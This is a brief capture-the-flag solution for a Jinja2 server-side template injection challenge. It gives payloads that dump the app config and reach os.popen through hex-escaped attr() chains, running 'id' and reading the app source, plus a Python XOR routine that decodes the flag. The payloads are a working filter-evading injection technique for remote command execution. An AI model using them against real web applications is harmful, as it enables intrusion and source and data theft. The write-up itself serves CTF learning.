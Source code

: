 # Solution

Step 1, get the config

``` python
{{self|attr("\x5f\x5fdict\x5f\x5f")}}
```

Step 2, get the app source code


``` python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cat app**")|attr("read")()}}
```

Step 3, run it yourself!

``` python
def magic(flag, key): 
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[x]) ^ ord(key[::-1][x])) for x in range(len(flag)))
 
flag="C\x1eS\x1dwsef}j\x057i\x7fo{D)'dO,+sutm3F"
magic(flag, '46e505c983433b7c8eefb953d3ffcd196a08bbf9')
```
 
